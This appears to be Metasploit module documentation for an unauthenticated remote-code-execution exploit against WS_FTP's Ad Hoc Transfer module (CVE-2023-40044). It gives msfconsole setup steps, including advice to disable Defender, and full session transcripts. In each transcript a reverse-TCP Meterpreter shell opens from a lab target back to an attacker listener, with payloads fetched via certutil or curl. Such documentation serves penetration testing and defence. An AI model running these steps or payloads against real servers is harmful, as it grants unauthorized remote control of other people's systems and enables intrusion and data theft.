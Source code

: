 ## Vulnerable Application
This module exploits an unsafe .NET deserialization vulnerability to achieve unauthenticated remote code
execution against a vulnerable WS_FTP server running the Ad Hoc Transfer module. All versions of WS_FTP server
prior to 8.7.4 and 8.8.2 are vulnerable to this issue. The vulnerability was originally discovered by AssetNote.

For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/bn32f9sNax/cve-2023-40044/rapid7-analysis).

## Testing
Download and install a vulnerable version of WS_FTP server. By default the server will listen for HTTPS connections
on port 443. The vulnerability is in the Ad Hoc Transfer module which is installed by default. This exploit
module was tested against `2020.0.1`. and `2022.0.1`.

## Verification Steps
Note: Disable Defender if you are using the default payloads.

Steps:
1. Start msfconsole
2. `use exploit/windows/http/ws_ftp_rce_cve_2023_40044`
3. `set RHOST <TARGET_IP>`
4. Set a Target:
    * `set target 0` for Windows Command.
    * `set target 1` for Windows Powershell.
5. Set a suitable PAYLOAD for the chosen target:
    * `set PAYLOAD cmd/windows/http/x64/meterpreter/reverse_tcp` for Windows Command target.
    * `set PAYLOAD x64/meterpreter/reverse_tcp` for Windows Powershell target.
6. `check`
7. `exploit`

## Scenarios

### Windows Command
```
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > set RHOST 192.168.86.50
RHOST => 192.168.86.50
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > set target 0
target => 0
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > set PAYLOAD cmd/windows/http/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > show options

Module options (exploit/windows/http/ws_ftp_rce_cve_2023_40044):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       443              yes       The target port (TCP)
   SSL         true             no        Negotiate SSL/TLS for outgoing connections
   TARGET_URI  /AHT/            no        Target URI. Must begin with /AHT/
   VHOST                        no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      NrkcXGOM         no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > check
[*] 192.168.86.50:443 - The target appears to be vulnerable. Detected a build date of 28-2-2023
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected a build date of 28-2-2023
[*] Sending stage (200774 bytes) to 192.168.86.50
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:49754) at 2023-10-02 11:32:33 +0100

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter >
```

### Windows Powershell

```
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > set target 1
target => 1
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > show options

Module options (exploit/windows/http/ws_ftp_rce_cve_2023_40044):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       443              yes       The target port (TCP)
   SSL         true             no        Negotiate SSL/TLS for outgoing connections
   TARGET_URI  /AHT/            no        Target URI. Must begin with /AHT/
   VHOST                        no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Powershell



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected a build date of 28-2-2023
[*] Sending stage (200774 bytes) to 192.168.86.50
[*] Meterpreter session 2 opened (192.168.86.42:4444 -> 192.168.86.50:49755) at 2023-10-02 11:34:01 +0100

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > 
```
